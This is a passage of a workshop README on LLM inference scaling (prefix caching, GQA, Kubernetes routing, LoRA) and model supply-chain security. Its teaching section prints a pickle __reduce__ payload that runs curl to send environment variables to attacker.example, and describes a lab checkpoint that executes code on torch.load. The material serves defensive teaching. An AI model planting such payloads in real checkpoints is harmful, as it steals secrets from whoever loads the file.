1. **PagedAttention [[6]](#ref-6):** Modeled after operating system virtual memory paging, PagedAttention partitions each sequence's KV cache into fixed-size **KV blocks** (for example, 16 tokens per block). A block table maps logical token blocks to non-contiguous physical blocks in GPU HBM, allocating physical blocks on demand as new tokens are generated (reducing KV cache waste to under 4% and achieving 2x–4x higher serving throughput over prior systems at comparable latency in published vLLM evaluations [[6]](#ref-6)).
2. **Automatic Prefix Caching (APC) / RadixAttention [[6]](#ref-6), [[7]](#ref-7):** In multi-turn chat, Retrieval-Augmented Generation (RAG), few-shot learning, and agent workflows, requests frequently share a common prefix consisting of system instructions, policy rules, few-shot examples, and JSON tool definitions. By hashing token blocks sequentially from the start of the prompt and indexing them in a reference-counted **Radix Tree** [[7]](#ref-7), the serving engine maps a new request's block table directly to existing physical KV blocks when a prefix match occurs, skipping prefill computation for the shared prefix (Zheng et al. report up to 6.4x higher throughput than prior systems on their published agent, reasoning, and multi-turn chat benchmarks [[7]](#ref-7)).
3. **Model-Level KV Reduction (Google Gemma 2 [[8]](#ref-8) and Grouped-Query Attention [[9]](#ref-9)):** At the model architecture level, **Grouped-Query Attention (GQA)** [[9]](#ref-9) shares a single Key and Value head across a group of Query heads, shrinking the KV cache footprint by a factor equal to the group size. Google's **Gemma 2** architecture [[8]](#ref-8) combines GQA with **Alternating Sliding Window Attention (SWA)**—alternating between local sliding-window attention layers (4,096 tokens) and global full-context attention layers, so only half of the layers keep a KV cache that grows with the full context. Gemma 2 also applies **Logit Soft-Capping** (bounding attention and final-layer scores within a smooth hyperbolic-tangent ceiling) to stabilize training and inference [[8]](#ref-8).



> [!NOTE]
> **Production Serving Engine Alternatives:** [Lab 1](demo/01-inference-scaling/benchmark_prefix_caching.py) uses a standalone PyTorch self-attention module (`LightweightAttention`) so students can trace the tensor concatenation and KV slicing directly on a CPU. Production GPU and TPU deployments use dedicated serving engines that manage PagedAttention block tables and Radix trees in C++ and Compute Unified Device Architecture (CUDA) kernels, including **[vLLM](https://docs.vllm.ai/)** [[6]](#ref-6) (`--enable-prefix-caching`), **[SGLang](https://github.com/sgl-project/sglang)** [[7]](#ref-7) (`RadixAttention`), **[NVIDIA TensorRT-LLM](https://github.com/NVIDIA/TensorRT-LLM)**, and **[Hugging Face Text Generation Inference (TGI)](https://github.com/huggingface/text-generation-inference)**.

---

### 4. Supply Chain Security: In-Band Token Bus vs. Out-of-Band Pickle Deserialization

Securing Generative AI systems involves two distinct areas: **in-band inference execution** (how the model processes token sequences at runtime) and **out-of-band supply chain ingestion** (how the host operating system loads model weight files from storage).

#### 1. In-Band Threat: Control-Plane vs. Data-Plane Separation on the Token Bus

Traditional software systems enforce a structural boundary between executable instructions (the **Control Plane**) and untrusted user input (the **Data Plane**):
- **Operating Systems:** Hardware CPU privilege rings separate Kernel Space (Ring 0) from User Space (Ring 3), while non-executable memory pages (Non-Executable [`NX`] bit / Data Execution Prevention [DEP]) prevent data buffers from executing as machine code.
- **Relational Databases:** Parameterized prepared statements compile the Structured Query Language (SQL) query structure before binding user-supplied strings as scalar parameters, preventing user input from altering query syntax.

Transformer language models do not have a hardware or grammatical separation between instructions and data [[10]](#ref-10), [[11]](#ref-11). System instructions (`"You are an internal finance assistant; do not disclose payroll records"`), external text retrieved via Retrieval-Augmented Generation (RAG), and user input are all tokenized and concatenated into a **single token sequence**. Every token attends to earlier tokens through the same attention projection weights (`q_proj`, `k_proj`, `v_proj`). As a result, adversarial text inside an external document (**Indirect Prompt Injection**, listed by the Open Worldwide Application Security Project [OWASP] as **OWASP LLM01** [[10]](#ref-10), [[11]](#ref-11)) can influence the model's output distribution and downstream tool invocations.

#### 2. Out-of-Band Threat: PyTorch Pickle Deserialization (`CWE-502` / `OWASP LLM03`)

Before a model serves traffic, its weight files are downloaded from repositories or object storage and deserialized into memory. Model checkpoint files (`.bin`, `.pt`, `.pth`, `.pkl`) are often treated as passive numerical arrays similar to comma-separated values (`.csv`) files.

In practice, PyTorch's `torch.load()` deserializer accepts both ZIP archives created by `torch.save()` (which bundle tensor storage buffers alongside a `data.pkl` file) and raw `pickle` byte streams created by `pickle.dump()` [[12]](#ref-12), [[22]](#ref-22). In both cases, deserialization runs through Python's `pickle` module—a **stack-based Virtual Machine (VM)** [[12]](#ref-12), [[22]](#ref-22) with opcodes (`GLOBAL`, `STACK_GLOBAL`, `REDUCE`, `BUILD`) that can import Python modules and call arbitrary functions.

When the `pickle` VM processes the `REDUCE` opcode—emitted whenever a serialized object defines a `__reduce__()` method [[12]](#ref-12)—it pops a callable and an argument tuple from the stack and executes `callable(*args)` **synchronously inside the host Python process during `torch.load()`**:

```python
import os

class MaliciousModelCheckpoint:
    def __reduce__(self):
        # Instructs the Python pickle Virtual Machine (VM) to invoke os.system()
        # when torch.load(..., weights_only=False) reads the checkpoint stream
        return (os.system, ("curl -s https://attacker.example/exfil -d \"$(env)\"",))
```

This weakness is cataloged as **Common Weakness Enumeration CWE-502 (Deserialization of Untrusted Data)** [[13]](#ref-13) and **OWASP LLM03 (Supply Chain Vulnerabilities)** [[10]](#ref-10). Published security research and incident disclosures confirm that this mechanism is actively exploited in the wild:
- **Trail of Bits (`Fickling`, 2021) [[22]](#ref-22):** Demonstrated how standard PyTorch and scikit-learn `pickle` files can be modified to inject arbitrary Python bytecode into the `REDUCE` / `GLOBAL` opcode stream without altering model tensor shapes.
- **JFrog Security Research (2024) [[23]](#ref-23):** Audited public repositories on the Hugging Face Hub and identified roughly 100 malicious PyTorch and `pickle` models that used `__reduce__()` payloads to establish reverse shells via `socket` and `subprocess` during `torch.load()`.
- **PyTorch `CVE-2025-32434` (2025) [[24]](#ref-24):** Documented a critical (Common Vulnerability Scoring System [CVSS] score `9.3`) Remote Code Execution vulnerability in `torch.load()` affecting PyTorch versions prior to `2.6.0` even when `weights_only=True` was enabled.

#### 3. Structural Remediation: SafeTensors and Zero-Copy Memory Mapping (`mmap`)

To separate tensor storage from executable serialization formats, Hugging Face developed the **[SafeTensors](https://huggingface.co/docs/safetensors/index)** format [[14]](#ref-14), now used across open-weight model distributions including Google Gemma 2 [[8]](#ref-8) and Meta LLaMA [[25]](#ref-25).

SafeTensors defines a three-segment binary file structure [[14]](#ref-14):

1. **Bytes `0..7` (8-Byte Header Length):** A little-endian **Unsigned 64-bit Integer (`uint64`)** specifying the exact byte length of the JSON metadata header that follows.
2. **UTF-8 JSON Metadata Header (Immediately Following Byte 7):** A JSON object (encoded in 8-bit Unicode Transformation Format [UTF-8]) mapping each tensor name (such as `"model.layers.0.self_attn.q_proj.weight"`) to its data type (`"dtype": "F32"`), shape (`"shape": [128, 128]`), and relative byte offsets (`"data_offsets": [BEGIN, END]`) in the data section, plus an optional string-only `"__metadata__"` map.
3. **Contiguous Raw Numerical Byte Buffer (Through End-of-File [EOF]):** Raw Institute of Electrical and Electronics Engineers (`IEEE-754`) floating-point or integer values stored sequentially without executable opcodes or object references.

This layout provides three practical properties [[14]](#ref-14):
- **(a) Non-Executable Parsing:** The SafeTensors reader parses only a static JSON header and validates numerical byte offsets; it has no mechanism to import modules or execute callables.
- **(b) Offset Bounds Validation:** Before exposing tensor views, the reader verifies that `data_offsets` are contiguous, non-overlapping, and within the file's byte length, raising a `SafetensorError` if the header is malformed.
- **(c) Zero-Copy Memory Mapping (`mmap`):** Because tensor buffers are stored contiguously at known file offsets, `safetensors` can map file pages directly into virtual memory via the operating system's `mmap()` call (or `CreateFileMapping` on Windows), avoiding intermediate memory copies during startup.



> [!NOTE]
> **Supply Chain Scanner and Provenance Alternatives:** Alongside **SafeTensors** [[14]](#ref-14), production ingestion pipelines often incorporate static bytecode scanners and cryptographic signing. When legacy checkpoints must be inspected in quarantine environments, **[Protect AI ModelScan](https://github.com/protectai/modelscan)** [[20]](#ref-20) and **[Trail of Bits Fickling](https://github.com/trailofbits/fickling)** [[22]](#ref-22) inspect `.pkl` opcode streams for unsafe imports (`os`, `subprocess`, `builtins.eval`, `webbrowser`) without executing the file. For artifact integrity and provenance verification, **[Sigstore Cosign](https://docs.sigstore.dev/)** [[15]](#ref-15) and **[SLSA (Supply-chain Levels for Software Artifacts)](https://slsa.dev/)** [[16]](#ref-16) attach cryptographic signatures and build attestations to model Secure Hash Algorithm 256-bit (SHA-256) digests.

---

### 5. Distributed Cluster Routing: Kubernetes Gateway API Inference Extension and LoRA

When an inference service scales horizontally across multiple Kubernetes pods, node-level optimizations like Automatic Prefix Caching interact directly with cluster load balancing.

#### Why Stateless L4/L7 Round-Robin Load Balancing Reduces Prefix Cache Locality

In stateless web services, a standard Kubernetes `Service` or ingress proxy distributes incoming requests using **Round-Robin** or **Least-Connections** policies. For stateful LLM serving, stateless load balancing works against **KV cache locality** [[17]](#ref-17):
- If **Request 1** (using `System Prefix A`) lands on **Worker Pod 1**, Pod 1 computes the prefill projections and caches `Prefix A` in its local HBM.
- If **Request 2** (also using `System Prefix A`) is routed by a round-robin load balancer to **Worker Pod 2**, Pod 2 does not have `Prefix A` in its memory and must recompute the 1,000-token prefill from scratch. Across a multi-pod deployment, naive round-robin routing scatters matching requests across different pods and duplicates identical prefix blocks across the cluster.

#### The Kubernetes Gateway API Inference Extension and Dynamic LoRA Multi-Tenancy

To preserve cache locality and share base model memory across multiple fine-tuned variants, Kubernetes serving clusters use two complementary components:

1. **[Kubernetes Gateway API Inference Extension](https://gateway-api-inference-extension.sigs.k8s.io/) (`inference.networking.k8s.io`) [[17]](#ref-17):** Extends the Kubernetes Gateway API with inference-aware routing resources:
   - **`InferencePool`:** Represents a group of model-serving pods (such as vLLM or SGLang replicas) and reports real-time metrics on per-pod KV cache utilization and waiting queue depth.
   - **`Endpoint Picker (EPP)`:** An Envoy external processing (`ext_proc`) routing service communicating over gRPC that evaluates incoming request prefixes and target adapter headers against replica telemetry, routing requests to pods that already hold the matching KV prefix blocks and have available queue capacity [[17]](#ref-17).
2. **Dynamic Low-Rank Adaptation (LoRA) Multi-Tenancy [[18]](#ref-18), [[19]](#ref-19):** Instead of deploying separate base model replicas for every fine-tuned task, **Low-Rank Adaptation (LoRA)** [[18]](#ref-18) keeps the base model weights frozen and represents task-specific updates as pairs of small low-rank adapter matrices (reducing trainable parameters by up to 10,000x and GPU memory requirements by 3x in published GPT-3 175B evaluations [[18]](#ref-18)). Multi-tenant serving systems such as **S-LoRA** [[19]](#ref-19) keep a single copy of the frozen base model in HBM and dynamically page compact LoRA adapter weights per request batch, achieving up to 4x higher serving throughput across thousands of concurrent adapters compared to unpooled LoRA serving [[19]](#ref-19).



> [!TIP]
> **Production Engineering Tip (Co-Routing by Prefix Hash and Adapter ID):** When configuring the Kubernetes Gateway API Inference Extension [[17]](#ref-17) for multi-tenant workloads, configure the Endpoint Picker (EPP) to evaluate both the **prompt prefix hash** and the **`lora_adapter_id`** request attribute. Routing requests for the same tenant adapter to a consistent subset of `InferencePool` pods reduces repeated adapter weight transfers while maintaining KV prefix cache hit rates [[17]](#ref-17), [[19]](#ref-19).

---

## 🛠️ Prerequisites, Version Matrix, and Setup

This section lists the verified tool versions, dependency relationships, and setup instructions for **Linux**, **macOS**, and **Windows**.

### 📋 Tool Version Matrix

| Tool / Library | Verified Stable Version | Minimum Requirement | Purpose |
| :--- | :--- | :--- | :--- |
| **[Python](https://www.python.org/downloads/)** | `3.14.7` (Tested on `3.13.1`; supports `3.12 \| 3.13 \| 3.14`) | `3.11+` | Core execution interpreter and isolated virtual environment (`venv`) runtime |
| **[PyTorch (`torch`)](https://pypi.org/project/torch/)** | `2.14.0` | `2.14.0+` | Multi-head self-attention tensor operations and checkpoint serialization |
| **[SafeTensors (`safetensors`)](https://pypi.org/project/safetensors/)** | `0.8.0` | `0.8.0+` | Non-executable tensor serialization and memory-mapped (`mmap`) ingestion [[14]](#ref-14) |
| **[Rich (`rich`)](https://pypi.org/project/rich/)** | `15.0.0` | `15.0.0+` | Structured terminal tables, diagnostic panels, and formatted output |
| **[Git](https://git-scm.com/)** | `2.55.0` (Tested on `2.44.0`) | `2.40+` | Distributed version control system for cloning and managing the repository |
| **[GNU Make](https://www.gnu.org/software/make/)** | `4.4.1` (macOS default `3.81`) | `3.81+` | Task runner executing automation targets defined in [`Makefile`](Makefile) |
| **[Visual Studio Code (VS Code)](https://code.visualstudio.com/)** | `1.139.1` | `1.100+` | Integrated Development Environment (IDE) hosting the interactive notebook interface |
| **[Runme (`stateful.runme`)](https://runme.dev/)** | `v3.17.5` | `v3.0+` | Interactive Markdown notebook extension for running code blocks inline |

### 🔗 Dependency Tree

- **Python 3.11+ Interpreter:** Host prerequisite used to create the local `.venv` virtual environment via [`setup.sh`](setup.sh) (Linux/macOS) or [`setup.ps1`](setup.ps1) (Windows).
- **[`requirements.txt`](requirements.txt):** Single source of truth for Python package dependencies (`torch>=2.14.0`, `safetensors>=0.8.0`, `rich>=15.0.0`). On Linux and Windows hosts, [`setup.sh`](setup.sh) and [`setup.ps1`](setup.ps1) pass `--extra-index-url https://download.pytorch.org/whl/cpu` directly to `pip install -r requirements.txt` so that CPU-only PyTorch wheels are installed without downloading multi-gigabyte Compute Unified Device Architecture (CUDA) packages.
- **Laboratory Modules ([`demo/`](demo/)):** Python scripts executed inside the `.venv` environment via Runme cells or [`Makefile`](Makefile) targets.

---

## 📁 Repository Structure and File Mapping

```text
deakin-uni-scaling-genai/
├── README.md                                              # Workshop curriculum guide and interactive Runme notebook
├── Makefile                                               # Task automation targets for setup, demos, and cleanup
├── requirements.txt                                       # Single source of truth for Python dependencies (torch, safetensors, rich)
├── setup.sh                                               # Virtual environment setup script (Linux and macOS)
├── setup.ps1                                              # Virtual environment setup script (Windows PowerShell)
├── cleanup.sh                                             # Artifact and virtual environment cleanup script (Linux and macOS)
├── cleanup.ps1                                            # Artifact and virtual environment cleanup script (Windows PowerShell)
└── demo/
    ├── 01-inference-scaling/
    │   └── benchmark_prefix_caching.py                    # Lab 1: Naive Prefill vs. Automatic Prefix Caching A/B benchmark
    └── 02-supply-chain-security/
        ├── security_common.py                             # Shared constants, stdout logger, canary cleanup, and reference weights
        ├── exploit_pickle.py                              # Lab 2A: Legacy PyTorch pickle deserialization exploit (CWE-502)
        └── harden_safetensors.py                          # Lab 2B: SafeTensors binary header inspection and zero-copy loading
```

The repository is organized as a self-contained workspace:

- **[`Makefile`](Makefile), [`setup.sh`](setup.sh), [`setup.ps1`](setup.ps1), [`cleanup.sh`](cleanup.sh), and [`cleanup.ps1`](cleanup.ps1):** Cross-platform automation scripts that verify Python `3.11+`, provision the isolated `.venv` virtual environment from [`requirements.txt`](requirements.txt), execute the laboratory modules, and clean up generated model checkpoints and canary files.
- **[`demo/01-inference-scaling/benchmark_prefix_caching.py`](demo/01-inference-scaling/benchmark_prefix_caching.py):** Self-contained PyTorch benchmark for **Lab 1**, comparing naive full-prompt prefill recomputation (**Architecture A**) against Key-Value (KV) prefix cache reuse (**Architecture B**).
- **[`demo/02-supply-chain-security/`](demo/02-supply-chain-security/):** Contains the **Lab 2** supply chain security modules: [`security_common.py`](demo/02-supply-chain-security/security_common.py) (shared file constants, standard-output [`sys.stdout`] logging, canary cleanup, and reference weights), [`exploit_pickle.py`](demo/02-supply-chain-security/exploit_pickle.py) (**Lab 2A** `pickle` deserialization exploit), and [`harden_safetensors.py`](demo/02-supply-chain-security/harden_safetensors.py) (**Lab 2B** SafeTensors binary header parser and memory-mapped loader).

---

## 🎛️ Cross-Platform Automation Matrix (Runme and GNU Make)

Every laboratory step can be run on **Linux**, **macOS**, and **Windows** using interactive **[Runme](https://runme.dev/)** notebook cells in VS Code, [`Makefile`](Makefile) targets on Unix/macOS, or direct shell commands.

| Stage / Operation | GNU Make Target (`Makefile`) | Runme Cell Name (`README.md`) | Unix Native Command (Bourne Again SHell [Bash] / Z Shell [Zsh]) | Windows Native Command (PowerShell) |
| :--- | :--- | :--- | :--- | :--- |
| **Inspect Targets** | `make help` | `make-help` | `make help` | `Get-Content Makefile` |
| **Step 0: Setup Runtime** | `make setup` | `bootstrap-unix` / `bootstrap-windows` / `bootstrap-make` | `./setup.sh` | `.\setup.ps1` |
| **Lab 1: Prefix Caching** | `make prefix-caching-demo` | `prefix-caching-demo-unix` / `prefix-caching-demo-windows` / `prefix-caching-demo-make` | `.venv/bin/python3 demo/01-inference-scaling/benchmark_prefix_caching.py` | `.\.venv\Scripts\python.exe demo\01-inference-scaling\benchmark_prefix_caching.py` |
| **Lab 2: Full Security Suite** | `make supply-chain-security-demo` | `supply-chain-security-demo-make` | `.venv/bin/python3 demo/02-supply-chain-security/exploit_pickle.py && .venv/bin/python3 demo/02-supply-chain-security/harden_safetensors.py` | `.\.venv\Scripts\python.exe demo\02-supply-chain-security\exploit_pickle.py; .\.venv\Scripts\python.exe demo\02-supply-chain-security\harden_safetensors.py` |
| **Lab 2A: Pickle Exploit** | `make exploit-pickle-demo` | `exploit-pickle-demo-unix` / `exploit-pickle-demo-windows` | `.venv/bin/python3 demo/02-supply-chain-security/exploit_pickle.py` | `.\.venv\Scripts\python.exe demo\02-supply-chain-security\exploit_pickle.py` |
| **Lab 2B: SafeTensors Defense** | `make harden-safetensors-demo` | `harden-safetensors-demo-unix` / `harden-safetensors-demo-windows` | `.venv/bin/python3 demo/02-supply-chain-security/harden_safetensors.py` | `.\.venv\Scripts\python.exe demo\02-supply-chain-security\harden_safetensors.py` |
| **Step 3: Clean Artifacts** | `make cleanup` | `cleanup-unix` / `cleanup-windows` / `cleanup-make` | `./cleanup.sh` | `.\cleanup.ps1` |
| **Complete Teardown** | `make cleanup-all` | `cleanup-all` | `./cleanup.sh --all` | `.\cleanup.ps1 -All` |

### 📓 Opening `README.md` as an Interactive Runme Notebook

1. Install the **[Runme Extension (`stateful.runme`)](https://marketplace.visualstudio.com/items?itemName=stateful.runme)** in VS Code (`code --install-extension stateful.runme`).
2. Open the cloned `deakin-uni-scaling-genai` repository folder in VS Code.
3. Right-click `README.md` in the Explorer sidebar, select **Open With...**, and choose **Runme Markdown Notebook** (or click **Open with Runme** in the top-right editor bar).
4. Click the **Run** button next to any code cell below corresponding to the host operating system.

To view all `Makefile` targets and their descriptions before starting the exercises, run the cell below:

```bash {"id":"00-make-help","name":"make-help"}
# Display all available Makefile automation targets and their descriptions
make help
```

---

## 🚀 Interactive Execution Playbook

### Step 0: Virtual Environment Initialization

Before running the benchmarks, initialize the local `.venv` Python virtual environment. The setup scripts check for Python 3.11+, create `.venv`, upgrade `pip`, and install the dependencies defined in [`requirements.txt`](requirements.txt) (`torch>=2.14.0`, `safetensors>=0.8.0`, `rich>=15.0.0`).

Run one of the options below matching the host operating system:

#### Option A: Linux and macOS (Bash / Zsh)

```bash {"id":"01-setup-unix","name":"bootstrap-unix"}
# Ensure shell scripts have execute permissions and initialize .venv
chmod +x setup.sh cleanup.sh
./setup.sh
```

#### Option B: Windows (PowerShell)

```powershell {"id":"01-setup-windows","name":"bootstrap-windows"}
# Allow script execution for the current process and initialize .venv
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
.\setup.ps1
```

#### Option C: GNU Make Shortcut (Linux and macOS)

```bash {"id":"01-setup-make","name":"bootstrap-make"}
# Initialize the virtual environment via the Makefile setup target
make setup
```

Once the command finishes, the verification output confirms that `PyTorch`, `SafeTensors`, and `Rich` are installed in `.venv`.

---

### Lab 1: Automatic Prefix Caching vs. Naive Prefill Recomputation

#### Architectural Walkthrough

This exercise executes [`demo/01-inference-scaling/benchmark_prefix_caching.py`](demo/01-inference-scaling/benchmark_prefix_caching.py) to compare full prefill recomputation against Key-Value (KV) prefix caching:

- **[`BenchmarkConfig`](demo/01-inference-scaling/benchmark_prefix_caching.py) and [`RequestMetric`](demo/01-inference-scaling/benchmark_prefix_caching.py):** Define an immutable `@dataclass(frozen=True)` workload configuration (`hidden_dim=512`, `num_heads=8`, shared system prompt `prefix_length=1000`, per-turn user `query_length=32`, `num_requests=4`, `seed=42`) and record per-query Time-To-First-Token (`ttft_ms`), `tokens_evaluated`, and `cache_status`.
- **[`LightweightAttention`](demo/01-inference-scaling/benchmark_prefix_caching.py):** PyTorch `nn.Module` implementing single-layer multi-head scaled dot-product self-attention (`q_proj`, `k_proj`, `v_proj`, `out_proj`). When `past_kv` is supplied, `forward()` concatenates cached Key and Value tensors with the new query projections along the sequence dimension (`torch.cat([cached_k, k], dim=2)`) instead of recomputing projections for the prefix tokens.
- **[`BenchmarkHarness`](demo/01-inference-scaling/benchmark_prefix_caching.py) and [`display_results`](demo/01-inference-scaling/benchmark_prefix_caching.py):** Generate synthetic tensors via [`generate_workload`](demo/01-inference-scaling/benchmark_prefix_caching.py), evaluate **Architecture A** via [`evaluate_naive`](demo/01-inference-scaling/benchmark_prefix_caching.py) (recomputing all 1,032 tokens—1,000 prefix tokens plus 32 query tokens—on every request), evaluate **Architecture B** via [`evaluate_cached`](demo/01-inference-scaling/benchmark_prefix_caching.py) (populating `prefix_cache` on Query #1 and evaluating only the 32 query tokens on Queries #2–#4), and render the comparative latency table via `rich`.



#### Executing Lab 1

Run the benchmark using one of the platform options below:

##### Option A: Linux and macOS (Bash)

```bash {"id":"02-prefix-caching-demo-unix","name":"prefix-caching-demo-unix"}
# Execute Lab 1 (Automatic Prefix Caching A/B Benchmark)
.venv/bin/python3 demo/01-inference-scaling/benchmark_prefix_caching.py
```

##### Option B: Windows (PowerShell)

```powershell {"id":"02-prefix-caching-demo-windows","name":"prefix-caching-demo-windows"}
# Execute Lab 1 (Automatic Prefix Caching A/B Benchmark)
.\.venv\Scripts\python.exe demo\01-inference-scaling\benchmark_prefix_caching.py
```

##### Option C: GNU Make Shortcut (Linux and macOS)

```bash {"id":"02-prefix-caching-demo-make","name":"prefix-caching-demo-make"}
# Execute Lab 1 via the Makefile target
make prefix-caching-demo
```

#### Output Verification and Analysis

Once the above-mentioned command is executed, the output should look similar to the one shown below:

```text
                       Empirical Comparison: Time-To-First-Token (TTFT)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━┓
┃ Query ID ┃ Arch A: Naive TTFT ┃     Arch B: Cached TTFT ┃ Speedup Factor ┃ Tokens Saved ┃
┡━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━┩
│ Query #1 │           16.42 ms │    14.85 ms (0% Warmup) │      1.1x      │     0 tokens │
│ Query #2 │           15.98 ms │     0.48 ms (100% Hit)  │     33.3x      │  1000 tokens │
│ Query #3 │           16.11 ms │     0.46 ms (100% Hit)  │     35.0x      │  1000 tokens │
│ Query #4 │           15.89 ms │     0.47 ms (100% Hit)  │     33.8x      │  1000 tokens │
└──────────┴────────────────────┴─────────────────────────┴────────────────┴──────────────┘
```

Key observations from the benchmark output:
1. **Query #1 (Cache Warmup):** Architecture B processes the 1,000-token prefix first to populate `prefix_cache` (`(cached_k, cached_v)` of shape `[1, 8, 1000, 64]`) and then evaluates the 32-token query against `past_kv=prefix_cache`. Both architectures evaluate all 1,032 tokens on the initial turn (`0 tokens saved`), with Architecture B running slightly faster because the 1,000 prefix tokens do not compute attention scores against the 32 query tokens during the warmup pass.
2. **Queries #2, #3, and #4 (100% Prefix Cache Hit):** Architecture B reuses `prefix_cache` and computes Query, Key, and Value projections (`Q`, `K`, `V`) only for the 32 new query tokens, concatenating the new `K` and `V` tensors with the cached prefix tensors. In this isolated single-layer microbenchmark (`LightweightAttention`), projecting 32 tokens instead of 1,032 tokens (roughly 32x fewer input tokens) reduces single-layer prefill latency in proportion to the token ratio, avoiding **3,000 redundant token evaluations** across the 4-query run. In full multi-layer model serving workloads that include autoregressive decoding, the published numbers are smaller and depend on the workload: Kwon et al. report 2x–4x higher throughput for vLLM over prior serving systems at comparable latency [[6]](#ref-6), and Zheng et al. report up to 6.4x higher throughput for SGLang on prefix-heavy workloads [[7]](#ref-7). The gain depends on how many prompt tokens are shared and how many output tokens are generated per request.

> [!IMPORTANT]
> **Production Best Practice: Prompt Template Ordering for Prefix Caching**
> Because prefix cache hashes are computed sequentially from the first token [[6]](#ref-6), [[7]](#ref-7), placing dynamic per-request fields (such as `Current Timestamp`, `Request Universally Unique Identifier [UUID]`, or `User Session Info`) at the start of a system prompt changes the hash for all subsequent tokens. Place static content first and dynamic context last:
> `Static System Instructions -> Tool & JSON Schemas -> Few-Shot Examples -> Dynamic Session State & User Query`.

---

### Lab 2: Open-Weight Deserialization Exploit (CWE-502) and SafeTensors Hardening

#### Architectural Walkthrough

This two-part exercise examines checkpoint serialization security using [`security_common.py`](demo/02-supply-chain-security/security_common.py), [`exploit_pickle.py`](demo/02-supply-chain-security/exploit_pickle.py), and [`harden_safetensors.py`](demo/02-supply-chain-security/harden_safetensors.py):

- **Shared Utilities ([`security_common.py`](demo/02-supply-chain-security/security_common.py)):** Defines shared file constants (`CANARY_FILE = "HACKED_DEMO_CANARY.txt"`, `VULNERABLE_CHECKPOINT = "vulnerable_model.bin"`, `SAFE_CHECKPOINT = "safe_model.safetensors"`), [`configure_logger`](demo/02-supply-chain-security/security_common.py) (standard-output `sys.stdout` logging), [`purge_canary_file`](demo/02-supply-chain-security/security_common.py) (removes any prior canary file before each test), and [`build_reference_weights`](demo/02-supply-chain-security/security_common.py) (constructs reference tensors `"model.embed_tokens.weight"` of shape `[64, 128]` and `"model.layers.0.self_attn.q_proj.weight"` of shape `[128, 128]`).
- **Part A ([`exploit_pickle.py`](demo/02-supply-chain-security/exploit_pickle.py)):** [`create_malicious_checkpoint`](demo/02-supply-chain-security/exploit_pickle.py) pairs the reference weight tensors with a `"security_exploit_hook"` entry holding [`MaliciousPayload`](demo/02-supply-chain-security/exploit_pickle.py) and serializes the dictionary to `vulnerable_model.bin`. When [`trigger_deserialization`](demo/02-supply-chain-security/exploit_pickle.py) calls `torch.load("vulnerable_model.bin", weights_only=False)`, the `pickle` VM executes `MaliciousPayload.__reduce__()`, which invokes `(os.system, (command,))` to write `[COMPROMISED] Arbitrary execution triggered during torch.load()` along with a Coordinated Universal Time (UTC) International Organization for Standardization (ISO-8601) timestamp and host platform string into `HACKED_DEMO_CANARY.txt`.
- **Part B ([`harden_safetensors.py`](demo/02-supply-chain-security/harden_safetensors.py)):** [`generate_safetensors_checkpoint`](demo/02-supply-chain-security/harden_safetensors.py) saves the reference weights to `safe_model.safetensors` via `safetensors.torch.save_file()`. [`inspect_binary_layout`](demo/02-supply-chain-security/harden_safetensors.py) opens `safe_model.safetensors` in binary mode (`"rb"`), unpacks the first 8 bytes as a little-endian `uint64` (`struct.unpack("<Q", header_size_bytes)[0]`), and decodes the UTF-8 JSON header. Finally, [`verify_hardened_ingestion`](demo/02-supply-chain-security/harden_safetensors.py) loads the tensors via `safetensors.torch.load_file()` and verifies that `HACKED_DEMO_CANARY.txt` is not created.

The diagram below illustrates how both parts share [`security_common.py`](demo/02-supply-chain-security/security_common.py) and contrast in binary structure and loading behavior:



#### Part A: Simulating the Legacy Pickle Deserialization Exploit

Run [`exploit_pickle.py`](demo/02-supply-chain-security/exploit_pickle.py) using one of the options below:

##### Option A: Linux and macOS (Bash)

```bash {"id":"03a-exploit-pickle-demo-unix","name":"exploit-pickle-demo-unix"}
# Execute Lab 2A: Run the legacy PyTorch pickle deserialization demonstration (CWE-502)
.venv/bin/python3 demo/02-supply-chain-security/exploit_pickle.py
```

##### Option B: Windows (PowerShell)

```powershell {"id":"03a-exploit-pickle-demo-windows","name":"exploit-pickle-demo-windows"}
# Execute Lab 2A: Run the legacy PyTorch pickle deserialization demonstration (CWE-502)
.\.venv\Scripts\python.exe demo\02-supply-chain-security\exploit_pickle.py
```

#### Part B: Structural Remediation and Binary Header Inspection with SafeTensors

Next, run [`harden_safetensors.py`](demo/02-supply-chain-security/harden_safetensors.py) to inspect the `.safetensors` binary header and verify memory-mapped tensor loading:

##### Option A: Linux and macOS (Bash)

```bash {"id":"03b-harden-safetensors-demo-unix","name":"harden-safetensors-demo-unix"}
# Execute Lab 2B: Serialize to SafeTensors, inspect binary header, and verify safe loading
.venv/bin/python3 demo/02-supply-chain-security/harden_safetensors.py
```

##### Option B: Windows (PowerShell)

```powershell {"id":"03b-harden-safetensors-demo-windows","name":"harden-safetensors-demo-windows"}
# Execute Lab 2B: Serialize to SafeTensors, inspect binary header, and verify safe loading
.\.venv\Scripts\python.exe demo\02-supply-chain-security\harden_safetensors.py
```

#### Combined Execution via GNU Make (Linux and macOS)

To run both **Part A (`exploit-pickle-demo`)** and **Part B (`harden-safetensors-demo`)** sequentially in a single command, use the `supply-chain-security-demo` target:

```bash {"id":"03c-supply-chain-security-demo-make","name":"supply-chain-security-demo-make"}
# Run both Lab 2A and Lab 2B sequentially via the Makefile composite target
make supply-chain-security-demo
```

#### Output Verification and Analysis

Once the above-mentioned commands are executed, compare the two outputs:

1. **Part A Output (`exploit_pickle.py`):** Confirming CWE-502 execution:
   ```text
   ╭─ Vulnerability Audit: Insecure Deserialization (Common Weakness Enumeration / CWE-502) ─╮
   │ ARBITRARY CODE EXECUTION CONFIRMED                                                      │
   │                                                                                         │
   │ [COMPROMISED] Arbitrary execution triggered during torch.load()                         │
   │ Timestamp: 2026-09-27T16:30:00.000000+00:00                                             │
   │ Platform: Linux-6.8.0-x86_64 / macOS-arm64                                              │
   ╰─────────────────────────────────────────────────────────────────────────────────────────╯
   ```
2. **Part B Output (`harden_safetensors.py`):** Confirming the 3-segment binary structure and declarative loading:
   ```text
                     SafeTensors Binary Layout (Declarative Header & Raw Byte Buffers)
